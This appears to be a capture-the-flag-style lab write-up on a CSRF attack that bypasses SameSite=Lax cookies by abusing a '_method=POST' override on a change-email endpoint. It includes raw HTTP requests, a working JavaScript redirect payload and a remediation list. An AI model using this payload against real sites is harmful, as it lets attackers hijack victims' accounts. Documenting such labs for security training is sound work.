

# CSRF — SameSite Lax Bypass via Method Override

## Summary

The application's **change email** functionality is vulnerable to CSRF. The endpoint does not require a CSRF token, while the victim's session cookie is protected by the browser's default `SameSite=Lax` behavior.

The application also supports HTTP method override using the `_method=POST` parameter. This allows an attacker to convert a cross-site GET request into a POST operation and change the victim's email address.

## Steps to Reproduce

### 1. Identify the vulnerable endpoint

After logging in with `wiener:peter`, changing the email generates:

```http
POST /my-account/change-email HTTP/2
Host: TARGET
Cookie: session=VICTIM_SESSION

email=test@example.com
```

No CSRF token is required.

### 2. Test method override

Change the request from POST to GET and add `_method=POST`:

```http
GET /my-account/change-email?email=test@example.com&_method=POST HTTP/2
Host: TARGET
Cookie: session=VICTIM_SESSION
```

The server accepts the request and changes the email, confirming that `_method=POST` causes the application to process the GET as a POST.

### 3. Create the CSRF exploit

Host the following payload on the provided exploit server:

```html
<script>
  window.location.href =
    "https://TARGET/my-account/change-email?email=attacker@example.com&_method=POST";
</script>
```

When the victim visits the exploit page, the browser performs a top-level GET navigation. Because the session cookie uses the browser's default `SameSite=Lax` behavior, the cookie is sent with this navigation.

The application then interprets `_method=POST` as a POST request and changes the victim's email.

## Attack Flow

```text
Attacker's exploit page
        ↓
Top-level GET request
        ↓
Victim's session cookie is sent
        ↓
_method=POST
        ↓
Application treats request as POST
        ↓
/my-account/change-email
        ↓
Victim's email is changed
```

## Remediation

- Implement a strong, unpredictable, session-bound CSRF token.
- Do not allow state-changing operations through GET requests.
- Disable or restrict HTTP method override for sensitive endpoints.
- Use `SameSite` cookie protections as an additional defense, not as the sole CSRF protection.
  **screenshot**
  
